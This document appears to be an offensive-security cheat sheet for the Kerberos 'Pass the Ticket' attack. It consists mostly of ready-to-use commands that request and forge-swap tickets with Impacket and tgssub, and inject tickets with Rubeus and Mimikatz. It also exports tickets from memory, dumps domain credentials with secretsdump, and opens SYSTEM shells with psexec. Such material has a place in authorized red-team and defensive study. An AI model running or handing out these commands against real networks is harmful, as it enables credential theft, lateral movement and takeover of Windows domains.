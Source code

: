 # Pass the Ticket (ccache / kirbi)

## Tools: mimikatz , rubeus , impacket , ticketConverter.py , secretsdump , tgssub.py

## Steps:

### 1) Request a TGT or a ST

    getTGT.py -dc-ip <DC_IP> domain.local/user1:password

    getST.py -spn "cifs/target.domain.local" -dc-ip <DC_IP> domain.local/user1:password

### 2) Use the tickets

Load a kerberos ticket in .ccache format : export KRB5CCNAME=./ticket.ccache

## Globally, all the Impacket tools and the ones that use the library can authenticate via Kerberos with the -k -no-pass command line parameter instead of specifying the password. For ldeep it's -k.

For NetExec it is -k with credentials to perform the whole Kerberos process and authenticate with the ticket. If a .ccache ticket is already in memory, it is -k --use-kcache.

https://hideandsec.sh/link/71#bkmrk-for-evil-winrm-it%27s-
 
For evil-winrm it's -r <domain> --spn <SPN_prefix> (default 'HTTP'). The realm must be specified in the file /etc/krb5.conf using this format -> CONTOSO.COM = { kdc = fooserver.contoso.com }

If the Kerberos ticket is in .kirbi format it can be converted like this in the below command:

# Convert format (Use this depending on use case)

    ticketConverter.py KIRBI||CCACHE CCACHE||KIRBI (Convert tickets to the appropriate format)

## Convert Base64 ticket to both .ccache and .kirbi https://github.com/SolomonSklash/RubeusToCcache

    python3 rubeustoccache.py <Base64Ticket> <Output.kirbi> <Output.ccache>

#### 1) Rubeus

    Rubeus.exe ptt /ticket:TICKET

#### 2) Mimikatz

    mimikatz kerberos::ptc "TICKET"

#### 3) secretsdump

    [proxychains] secretsdump.py -k 'DOMAIN'/'USER'@'IP' (See DC Sync)

#### 4) impacket tools (Grant System/Admin access)

    export KRB5CCNAME=/path/to/TICKET.CCACHE

    impacket-psexec -k -no-pass USER@IP (Example)

#### 5) tgssub.py 

### Modify SPN

    tgssub.py -in TICKET.CCACHE -out NEW_TICKET.CCACHE -altservice "SERVICE/TARGET" (Pass the Ticket)

### Tool: Mimikatz

     Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'

OR

#### 1) 

    privilege::debug

#### 2) 
    sekurlsa::tickets /export

#### 3) 
    
    kerberos::ptt TICKET.kirbi

#### 
    
    klist

### TIP: TGTs = Admin Credentials.

#### Access to any service the user is allowed to access.

### TGSs=Low-privileged account

## Alternate Method: Rubeus

    .\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi

    klist

    .\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
